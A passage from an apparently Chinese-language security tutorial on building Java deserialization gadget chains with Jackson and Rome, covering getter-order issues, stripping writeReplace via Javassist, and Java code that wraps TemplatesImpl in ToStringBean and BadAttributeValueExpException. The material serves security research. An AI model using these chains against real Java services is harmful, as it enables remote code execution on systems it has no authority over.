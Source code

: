 嫌麻烦的话直接引入 `springframework.boot.spring.starter.web`依赖就行

#### getter调用顺序不稳定及解决方式

这一块已经有师傅写过相关文章，我也就不做重复劳动了

问题原因： [https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q](https://mp.weixin.qq.com/s/XrAD1Q09mJ-95OXI2KaS9Q)

解决方式： [https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

值得一提的是，Jackson结合LDAPAttribute使用的时候不需要这部分操作，**如果添加了反而会出错（当然**

#### 删除writeplace()方法

这一块也早就有很多师傅提过，但因为是一个很小的点，并没有专门分析的文章，不太好直接扔个链接，我也就干脆顺便提一下

在Java对象的序列化流程中，如果其类（或父类）拥有writeReplace方法（字面意思，writeObject 替代）就会走到类自己的序列化逻辑

Jackson中的POJONode类就满足这个条件，在序列化的时候便会发生报错（Jackson序列化和Java原生序列化的数据自然是不同的）

解决这个问题有多种思路，我们直接使用Javaassist字节码修改工具，删除BaseJsonNode类中的writeReplace方法即可

```plain
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
```

### Rome

Rome 1.12.0之前都可以用，注意1.0和后续版本中beanClass、obj的属性名有差别（低版本属性名前会有一个下划线 `_` ）

#### TemplatesImpl

Rome结合TemplatesImpl利用时存在和Jackson相似的问题，可能会在调用别的getter时报错而提前终止流程

这里也是采用相似的解决思路，使用Rome时可以直接在ToStringBean里指定从哪个类里获取getter，操作起来很简单

```plain
Object templatesImpl = null;
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl); //在这里指定了从templates.class接口里去获取getter，
                                                                              //其中只有一个getter：getOutputProperties()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        serialize(badAttributeValueExpException);       
        unserialize("ser.bin");
```

#### JdbcRowSetImpl
